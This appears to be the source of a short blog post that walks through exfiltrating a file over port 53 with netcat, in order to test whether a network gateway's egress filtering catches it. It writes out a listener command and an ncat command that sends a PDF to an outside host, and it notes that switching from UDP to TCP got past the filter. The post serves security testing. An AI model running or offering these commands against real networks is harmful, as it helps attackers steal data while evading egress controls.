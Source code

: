```yaml
---
layout: post
title:  "Data Exfiltration over DNS (netcat)"
date:   2021-03-14 14:11:15 -0400
categories: exfiltration 
tags: gateway bypass
---
```

<p>
Once an environment has been compromised and the adversary finds some desirable data the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be) so a simple listener will be open on the DNS port which is more commonly permitted.
</p>

<h3>Step 1 - Start the Listener</h3>

<p>
In this example the listener is being run on a Linux host outside of the LAN and is in GCP.
</p>

<p>nc is like a networking swiss army knife, -u means UDP, -l means listen, -p specifies port 53, and > data indicates to store all of the data received in a file called data.
</p>
<br>
<code>
  nc -u -l -p 53 > data
</code>
<br>

<h3>Step 2 - Send a File</h3>

<p>
We will attempt to move the data from a host protected by Gateway or Magic WAN.
</p>

<p>
This time netcat is being run with -u for UDP, the target is tun.ninjastars.cf which is just an A record, the port is 53 to appear as DNS, and < rp_DBIR_2017_Report_en_xg.pdf sends that PDF over the channel.
</p>
<br>

<code>
  ncat -u tun.ninjastars.cf 53 < rp_DBIR_2017_Report_en_xg.pdf
</code>
<br>


<h3>Step 3 - View the Results</h3>

<p>
The file doesn't show up on the other side. Unfortunately for now there is also not a Gateway log entry.
</p>

<p>
Switching from UDP to TCP by omitting the -u allows for the file to be transferred.
</p>

